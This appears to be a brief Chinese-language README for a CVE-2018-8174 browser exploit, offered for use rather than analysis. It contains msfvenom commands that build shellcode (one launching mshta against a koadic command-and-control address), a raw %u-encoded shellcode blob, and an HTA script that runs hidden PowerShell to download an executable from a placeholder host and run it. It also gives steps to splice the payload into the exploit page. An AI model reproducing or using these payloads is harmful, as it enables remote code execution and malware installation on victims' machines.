 # CVE-2018-8174 REC

`msfvenom -p windows/exec cmd='mshta koadic 的地址' -f js_le exitfunc=thread -a x86`

`测试payload`

       msfvenom -p windows/exec cmd=calc.exe -f js_le exitfunc=thread -a x86

    %ue8fc%u0082%u0000%u8960%u31e5%u64c0%u508b%u8b30%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf2e2%u575 2%u528b%u8b10%u3c4a%u4c8b%u7811%u48e3%ud101%u8b51%u2059%ud301%u498b%ue318%u493a%u348b%u018b%u31d6%uacff%ucfc1%u010d%u38c7%u75e0%u03f6%uf87d%u7d3b%u7524%u58e4%u588b%u0124%u66d3%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u5fe0%u5a5f%u128b%u8deb%u6a5d%u8d01%ub285%u0000%u5000%u3168%u6f8b%uff87%ubbd5%u1de0%u0a2a%ua668%ubd95%uff9d%u3cd5%u7c06%u800a%ue0fb%u0575%u47bb%u7213%u6a6f%u5300%ud5ff%u6163%u636c%u652e%u6578%u4100

`hta code`
    
    <script>
    a=new ActiveXObject("WScript.Shell");
    a.run('%SystemRoot%/system32/WindowsPowerShell/v1.0/powershell.exe -windowstyle hidden (new-object System.Net.WebClient).DownloadFile(\'http://xxx.com/xxx.exe\', \'c:/windows/temp/xxx.exe\'); c:/windows/temp/xxx.exe', 0);window.close();
    </script>
    
    
    
    
    生成后打开html文件夹更改166行左右的shellcode位置 填写msf生成的payload   
    自己看着改
    
    
    演示视频地址：https://pan.baidu.com/s/1eTezME-wh7_qNJaveNOyaw 密码：s0kq
